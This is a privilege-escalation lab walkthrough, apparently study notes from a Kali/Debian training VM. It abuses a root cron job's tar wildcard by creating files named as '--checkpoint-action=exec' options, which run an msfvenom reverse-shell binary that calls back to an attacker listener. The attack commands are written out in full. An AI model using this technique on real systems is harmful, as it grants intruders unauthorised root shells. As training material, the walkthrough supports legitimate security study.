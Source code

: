 **View the contents of the other cron job script:**
```python
cat /usr/local/bin/compress.sh
```
- Note that the tar command is being run with a wildcard (*) in your home directory.
- Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

**Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:**
```python
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
- Transfer the shell.elf file to "/home/user/" on the Debian VM (you can use **scp** or host the file on a webserver on your Kali box and use **wget**).

**Make sure the file is executable:**
```python
chmod +x /home/user/shell.elf
```

**Create these two files in /home/user:**
```python
touch /home/user/--checkpoint=1   
touch /home/user/--checkpoint-action=exec=shell.elf
```
When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

**Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run**
```python
nc -lvnp 4444
```

**Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:**
```python
rm /home/user/shell.elf   
rm /home/user/--checkpoint=1   
rm /home/user/--checkpoint-action=exec=shell.elf
```

## Practically -
#### In target machine - 
![[linux_privesc16.png]]

#### In attacker machine - 
![[linux_privesc17.png]]
